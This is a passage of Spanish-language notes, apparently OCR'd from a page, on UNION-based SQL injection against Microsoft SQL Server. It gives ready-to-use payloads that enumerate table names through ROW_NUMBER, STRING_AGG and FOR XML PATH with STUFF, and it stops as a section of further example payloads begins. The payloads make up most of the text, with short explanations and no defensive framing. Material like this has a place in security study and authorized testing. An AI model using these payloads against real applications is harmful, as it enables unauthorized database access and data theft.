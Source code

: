 
### Ejemplo con `ROW_NUMBER()` (simular offset en versiones antiguas)

- Obtener la fila con número 1 (se puede cambiar a rn = 2, 3, ...):
    

```sql
' UNION SELECT NULL, (
  SELECT name FROM (
    SELECT name, ROW_NUMBER() OVER (ORDER BY name) rn FROM sys.tables WHERE schema_id = SCHEMA_ID('dbo')
  ) t WHERE rn = 1
) --
```

**Resumen rápido:**

- Usar `TOP` para límites rápidos sin offset.
    
- Usar `OFFSET/FETCH` cuando esté disponible y queramos paginar de forma simple.
    
- Usar `ROW_NUMBER()` cuando necesitemos compatibilidad o simular offset sin `OFFSET/FETCH`.
    

---

## Equivalente a `GROUP_CONCAT` (concatenar filas en una sola)

- **SQL Server 2017+**: `STRING_AGG(column, ',')`.
    

```sql
' UNION SELECT NULL, (SELECT STRING_AGG(name, ',') FROM sys.tables WHERE schema_id = SCHEMA_ID('dbo'))--
```

- **Versiones anteriores**: usar `FOR XML PATH('')` + `STUFF`:
    

```sql
' UNION SELECT NULL, (
  SELECT STUFF((SELECT ',' + name FROM sys.tables WHERE schema_id = SCHEMA_ID('dbo') FOR XML PATH('')), 1, 1, '')
)--
```

**Explicación:** `FOR XML PATH('')` concatena filas como XML; `STUFF` elimina la coma inicial.

---

## Ejemplos de payloads (concepto)

> Usamos aquí la forma `UNION SELECT NULL, <subconsulta>`, que es más robusta si desconocemos el tipo de la primera columna.

- **Obtener la base de datos actual:**
    